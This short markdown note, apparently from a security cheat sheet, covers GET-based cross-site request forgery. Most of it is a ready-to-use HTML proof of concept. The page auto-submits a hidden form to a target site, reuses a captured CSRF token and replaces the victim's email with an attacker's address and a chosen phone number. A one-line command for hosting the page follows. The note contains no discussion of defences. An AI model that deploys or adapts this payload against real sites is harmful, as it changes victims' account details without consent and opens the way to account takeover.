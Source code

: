 # Cross-Site Request Forgery (GET-based)
***
#### It is possible to extract CSRF tokens included in unencrypted requests

### Example:
```html
<html>
  <body>
    <form id="submit" action="http://[REAL_WEBSITE]/app/save/leet@example.com" method="GET">
      <input type="hidden" name="email" value="hackedby0xlightningg1337@fbi.org" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="11f7912d04b957022a6d3072be8ef67a41bia3e3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submit").submit()
    </script>
  </body>
</html>
```

```bash
$ python3 -m http.server 1337
```